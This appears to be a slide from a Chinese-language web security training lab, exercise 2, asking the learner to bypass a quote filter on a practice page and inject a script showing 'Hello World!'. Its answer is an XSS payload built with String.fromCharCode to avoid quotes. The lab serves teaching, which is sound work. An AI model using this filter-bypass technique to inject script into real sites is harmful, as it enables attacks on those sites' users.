

# 实验2: 绕过简单过滤
要求：注入-弹出“Hello World！“
页面
http://mcir.pte.com/xssmh/challenges/challenge1.php
过滤：单引号，双引号
请求：GET

答案：<script>a=String.fromCharCode(72, 101, 108, 108, 111, 32, 87, 111, 114, 108, 100, 33);alert(a)</script>